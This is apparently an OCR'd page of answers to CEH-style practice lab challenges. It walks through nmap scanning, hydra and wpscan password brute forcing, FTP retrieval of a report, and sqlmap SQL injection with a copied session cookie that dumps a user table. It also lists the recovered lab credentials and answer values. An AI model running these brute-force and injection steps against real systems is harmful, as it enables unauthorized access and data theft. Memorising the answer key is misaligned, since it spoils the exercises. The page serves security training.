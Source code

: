 Challenge 11:
You are part of a cybersecurity team investigating an internal website that has been copied from a legitimate site without authorization. One of your teammates, acting as a spy, has scanned the website using a smart scanner within the subnet 192.168.10.0/24. Your task is to identify the number of Directory Listing of Sensitive Files on this website. The report, named w_report.pdf, is available on the target machine.(Hint: He remembered the OS as Windows Server 19 while scanning the website) (Format: NN)
Answer:
1.	nmap -A -sC -sV -T4 192.168.10.0/24
2.	brute force using hydra to find credentials on the IPs with ftp,ssh (192.168.10.111, 192.168.10.144, 192.168.10.18)
3.	hydra -L /home/attacker/Desktop/username.txt -P /home/attacker/Desktop/password.txt ftp://192.168.10.144
4.	Parker/Passw0rd@1234
5.	ftp 192.168.10.144 (enter the found credentials)
6.	ls -> cd documents
7.	binary -> get w_report.pdf
8.	bye -> go to /home/attacker folder from files (not cd)
9.	open the PDF -> control +F -> “Sensitive”
10.	count the decimal points 12.36
11.	36

Challenge 12:
Perform a bruteforce attack on www.cehorg.com and find the password of user adam. (Format: aaaaaaNNNN)
Answer:
1.	nmap www.cehorg.com
2.	we see. there is a 8080 port open
3.	firefox -> 192.168.0.222:8080/CEH, we see it’s a wordpress website
4.	terminal
5.	wpscan --url http://192.168.0.222/CEH/ --passwords /home/attacker/Desktop/passwords.txt                  --usernames adam
6.	adam/orange1234

Challenge 13:
As a cybersecurity analyst, your task is to identify potential vulnerabilities on the moviescope.com website. Your manager has requested a specific number of risk categories. The required HTML file is located on EH Workstation 1. (Format: N)
Answer:
We can do vulnerability assement using smartscanner in Windows. It gives Risk.
1.	windows -> files -> E% -> CEHtools/MOD14 web application/security testing tools-> smart scanner
2.	www.moviescope.com
3.	Risk 3.1/5
4.	3

Challenge 14:
Perform a SQL Injection attack on www.moviescope.com and find out the number of users available in the database. (Format: N)
Answer:
1.	Firefox -> www.moviescope.com -> login page
2.	in CEH engage 2 , we found credentials using wireshark file ( kety/apple)
3.	login -> inspect element (Q)
4.	console -> document.cookie (copy it)
5.	go to view profile on the website and copy the URL
6.	terminal
7.	sqlmap -u http://www.moviescope.com/viewprofile.aspx?id=3 --cookie=”[cookie value]” --dbs
8.	sqlmap -u http://www.moviescope.com/viewprofile.aspx?id=3 --cookie=”[cookie value]” -D moviescope --tables
9.	sqlmap -u http://www.moviescope.com/viewprofile.aspx?id=3 --cookie=”[cookie value]” -D moviescope -T User_Login --dump 
10.	5
